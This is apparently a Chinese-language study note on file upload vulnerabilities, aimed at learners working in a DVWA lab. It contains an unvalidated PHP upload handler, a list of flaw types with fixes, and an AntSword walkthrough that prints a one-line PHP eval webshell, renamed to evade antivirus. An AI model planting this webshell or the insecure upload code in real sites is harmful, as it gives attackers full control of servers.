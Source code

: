 ```php
<?php
if ($_FILES["file"]["error"] > 0) {
    echo "Error: " . $_FILES["file"]["error"] . "<br />";
} else {
    echo "Upload: " . $_FILES["file"]["name"] . "<br />";
    echo "Type: " . $_FILES["file"]["type"] . "<br />";
    echo "Size: " . ($_FILES["file"]["size"] / 1024) . " Kb<br />";
    echo "Stored in: " . $_FILES["file"]["tmp_name"];
}
```


### 文件上传的分类

- 任意文件上传漏洞 / 直接文件上传漏洞 （高危）
- 有条件的上传漏洞
- 权限认证没处理
- 上传逻辑有问题
- 中间件或者系统特性上传

如果攻击者能直接上传恶意脚本到网站存放的目录，且这个目录可解析动态脚本语言，那么攻击者就能够直接获取网站权限

### 文件上传漏洞的修复方案
- 在网站中需要存在上传模块，需要做好权限认证，不能让匿名用户可访问。
- 文件上传目录设置为禁止脚本文件执行。这样设置即使被上传后门的动态脚本也不能解析，导致攻击者放弃这个攻击途径。
- 设置上传白名单，白名单只允许图片上传如，jpg png gif 其他文件均不允许上传
- 上传的后缀名，一定要设置成图片格式如 jpg png gif

---

## 01-使用蚁剑
- 下载 https://github.com/AntSwordProject/AntSword-Loader/releases
- 安装的时候他会下载github文件并解压，如果卡住了就自行解压然后重新选择那个目录。
- 参考教程： 蚁剑  [第一个Shell (yuque.com)](https://www.yuque.com/antswordproject/antsword/qg3g73)
- 上传文件
	- 因为ant总被火绒拦掉所以…… 我改成了Post  ”ass“
	- 上传文件内容：
	```
	<?php eval($_POST['ass']);
	```
- 新建站点
![Imgur](https://i.imgur.com/AiuKhN0.png)
	
- 可以修改/删除/浏览 web站点的所有文件。
![Imgur](https://i.imgur.com/sLFw53X.png)

---

## 01-DVWA - upload file
### 先看一下源代码
